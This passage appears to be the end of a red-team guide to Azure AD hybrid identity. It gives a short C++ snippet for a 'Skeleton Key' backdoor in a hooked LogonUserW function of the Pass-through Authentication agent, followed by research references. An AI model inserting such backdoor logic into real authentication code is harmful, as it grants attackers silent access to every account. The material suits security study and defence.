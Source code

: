 ```cpp
```

###### Authentication Agent backdoor (Azure Skeleton Key)

The following code can be inserted in the `LogonUserWHook` function
(`<INJECTED_CODE_BACKDOOR>`) to define a password that grant access to any
accounts (backdoor known as `Skeleton Key`).

```cpp
if (wcscmp(password, L"<BACKDOOR_SKELETON_KEY>") == 0) {
    return true;
}
```

--------------------------------------------------------------------------------

### References

https://blog.xpnsec.com/protecting-your-malware/
https://blog.xpnsec.com/azuread-connect-for-redteam/
https://www.synacktiv.com/publications/azure-ad-introduction-for-red-teamers.html
https://github.com/fox-it/adconnectdump
https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/
https://www.varonis.com/blog/azure-skeleton-key/
https://docs.microsoft.com/fr-fr/azure/active-directory/manage-apps/migrate-adfs-apps-to-azure
https://docs.microsoft.com/fr-fr/azure/active-directory/hybrid/how-to-connect-password-hash-synchronization
https://docs.microsoft.com/fr-fr/azure/active-directory/hybrid/how-to-connect-pta
